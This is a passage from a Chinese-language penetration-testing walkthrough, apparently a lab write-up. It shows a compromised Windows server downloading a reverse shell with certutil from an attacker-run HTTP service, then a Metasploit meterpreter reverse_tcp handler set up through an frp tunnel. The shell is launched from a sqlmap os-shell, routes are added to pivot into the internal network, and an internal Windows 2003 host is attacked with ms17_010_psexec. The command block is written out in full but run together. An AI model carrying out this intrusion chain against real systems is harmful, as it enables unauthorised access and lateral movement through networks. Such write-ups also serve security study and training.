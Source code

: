   

那么此时，我需要这台Server_5运行我的一个反弹shell，让他可以和我的kali当中msf建立起会话，这个时候刚刚在frp_server当中启用的一个http服务就起作用了

可以看到，当前的目录路径是在C:\WINDOWS\SYSTEM32

那么，我们可以使用certutil.exe，一般看到成功完成就代表下载下来了，所以我就不dir来查看了

![](https://gitee.com/fuli009/images/raw/master/public/20210809143301.png)

  

然后kali开启msfc

  *   *   *   *   *   *   *   * 

    
    
    msf> use exploit/multi/handlermsf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcppayload=> windows/meterpreter/reverse_tcpmsf exploit(multi/handler) > set LHOST 127.0.0.1LHOST=> 127.0.0.1msf exploit(multi/handler) > set LPORT 5555 //这里的端口是frpc上面的local端口，记得一定要一样啊LPORT=> 5555msf exploit(multi/handler) > exploit

接下来在sqlmap的os-shell当中运行reverse.exe

![](https://gitee.com/fuli009/images/raw/master/public/20210809143302.png)

  

MSF当中出现会话

![](https://gitee.com/fuli009/images/raw/master/public/20210809143303.png)

  

此时，因为我知道我还要对内网的一台2003进行渗透，那么就需要添加一下路由了，利用这台Server_5

先挂起会话，这里用post/multi/manage/autoroute

![]()

  

那么先进来shell当中看看，这里我是想直接扫描内网存活主机的，但是很容易就卡死了，所以我就直接shell到Server_5当中看arp表了

![](https://gitee.com/fuli009/images/raw/master/public/20210809143304.png)

  

172.16.192.4这台主机，这里因为前面说的扫描卡死了，所以我就没有一开始扫描判断操作系统了，因为我知道这台就是那台2003（这里很粗糙，有太多已知因素）

这里使用(windows/smb/ms17_010_psexec)对目标进行攻击

先把payload改为

![](https://gitee.com/fuli009/images/raw/master/public/20210809143305.png)

然后

![](https://gitee.com/fuli009/images/raw/master/public/20210809143306.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210809143307.png)
